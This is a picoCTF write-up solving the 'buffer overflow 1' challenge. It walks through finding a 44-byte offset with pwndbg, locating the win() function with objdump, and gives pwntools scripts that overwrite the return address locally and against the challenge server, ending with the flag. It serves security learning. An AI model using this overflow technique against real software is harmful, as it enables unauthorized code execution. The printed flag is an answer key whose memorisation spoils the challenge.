







# buffer overflow 1 solution
first, i make the file executable locally using 
``` chmod +x ./vuln```

i run ```file ./vuln``` to get that ```./vuln``` is a ```ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped```

i then run ```./vuln``` using ghidra and i find that it has a ```win()``` function which will print the flag for me once i overflow into it.
```
void win(void)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    printf("%s %s","Please create \'flag.txt\' in this directory with your","own debugging flag.\n")
    ;
                    // WARNING: Subroutine does not return
    exit(0);
  }
  fgets(local_50,0x40,local_10);
  printf(local_50);
  return;
}
```

then, i used pwndbg to find the offset:

1. ```gdb ./vuln```, i will enter pwndbg.
2. since ```./vuln``` is a 32 bit executable, i run ```cyclic 100 -n 4``` in pwndbg to get a really long string.

-> i run ```cyclic -n 4``` because on 32-bit systems, the stack is overwritten in 4-byte chunks, and i want cyclic_find() to search correctly.

3. the function gives me this:



4. i then run ```./vuln``` by entering `r` into pwndbg then copying and pasting the de-brujin sequence that i generated. 
5. the program will crash and show me the address, which in this case is `Okay, time to return... Fingers Crossed... Jumping to 0x6161616c`, so `0x6161616c` is where the program crashed.




6. i will then use `cyclic -l 0x6161616c` to find the offset, in this case it is 44.



7. now that i've found the offset, all i need to do is to obtain the address of the `win()` function so that i can overflow into it.
8. i created my own test flag using `echo picoCTF{test_flag} > flag.txt`
9. i then used `objdump -d vuln | grep win` to get the location of where the `win()` function starts, which is `0x080491f6`. (`objdump -d <file> | grep something` displays information about one or more object files and grep filters for lines matching whatever you put after grep)



10. now that i have the location of the `win()` function and the offset, i can begin crafting my payload;

```
from pwn import *

# Address of the win function
win_addr = p32(0x080491f6)

# Create the payload: 44 bytes of padding followed by the address of win()
payload = b"A" * 44 + win_addr

# Start the process and send the payload
p = process("./vuln")
p.sendline(payload)
p.interactive()
```

11. i send it by running `python3 buffer_overflow1_local.py` and it pushes out my test flag, which means my payload worked!



12. all i need to do now is to change the python file to run on the address that picoCTF gave me, and i'll get the flag!

```
from pwn import *

# Replace these with actual challenge values
HOST = "saturn.picoctf.net"  # actual host
PORT = 61422                 # actual port

# Address of the win function — verify if remote binary is different!
win_addr = p32(0x080491f6)

# Create the payload: 44 bytes of padding followed by the address of win()
payload = b"A" * 44 + win_addr

# Connect to the remote challenge
p = remote(HOST, PORT)

# Optional: wait for specific prompt before sending
p.recvuntil(b"Please enter your string:")

# Send the payload
p.sendline(payload)
```

and voila, you get the flag!



flag: ```picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}```
